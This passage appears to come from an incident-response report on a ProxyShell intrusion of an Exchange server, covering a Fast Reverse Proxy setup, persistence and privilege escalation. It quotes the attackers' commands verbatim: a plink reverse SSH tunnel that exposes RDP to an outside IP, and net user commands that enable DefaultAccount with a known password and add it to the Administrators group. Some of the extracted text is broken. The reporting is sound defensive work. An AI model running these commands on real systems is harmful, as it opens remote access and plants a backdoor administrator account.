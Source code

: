 CacheTask.bat is a script that loops the execution of the Fast Reverse Proxy (FRP) binary:

Below is a screenshot of dllhost.exe hash lookup in VirusTotal, matching Florian Roth’s Yara rule HKTL_PUA_FRP_FastReverseProxy_Oct21_1:



The C:\ProgramData\Microsoft\Windows\Runtime\RuntimeBroker file is linked to the execution above, and contained the following lines of code which are a configuration file for FRP:

The above configuration creates a http proxy bound to port 10151/tcp using encryption and compression.

The threat actors also dropped and executed plink.exe, creating a remote SSH tunnel to 148.251.71[.]182 (tcp[.]symantecserver[.]co) in order to reach the RDP port on the Exchange system over the internet:

"powershell.exe" /c echo y | plink.exe -N -T -R 0.0.0.0:1251:127.0.0.1:3389 148.251.71.182 -P 22 -l forward -pw [email protected] -no-antispoof

In the command line above you can see several options being used:


After running the above Plink command, the threat actors had RDP access into the environment over the SSH tunnel.

# Persistence

# Valid Accounts

To maintain persistence on patient 0, the threat actors leveraged the built-in DefaultAccount. It is a user-neutral account that can be used to run processes that are either multi-user aware or user-agnostic. The DSMA is disabled by default on the desktop SKUs (full windows SKUs) and WS 2016 with the Desktop (Reference).

To achieve persistence, the threat actors enabled the DefaultAccount by running the following command, using a web shell:

"powershell.exe" /c net user DefaultAccount / active : yes

After activating the account, the threat actors set the password of this account to [email protected] and added it to Administrators and Remote Desktop Users groups.

"powershell.exe" /c net user DefaultAccount P @ssw0rd "powershell.exe" /c net localgroup "Remote Desktop Users" /Add DefaultAccount "powershell.exe" /c net localgroup Administrators /Add DefaultAccount

# Privilege Escalation

ProxyShell exploitation provided the threat actors with NT AUTHORITY\SYSTEM privileges. Those privileges allowed them to enable the DefaultAdmin account to get access to the Mail Server using valid credentials. Moreover, the threat actors managed to dump LSASS and steal a domain administrator account, which was used to perform lateral movement.

# Defense Evasion
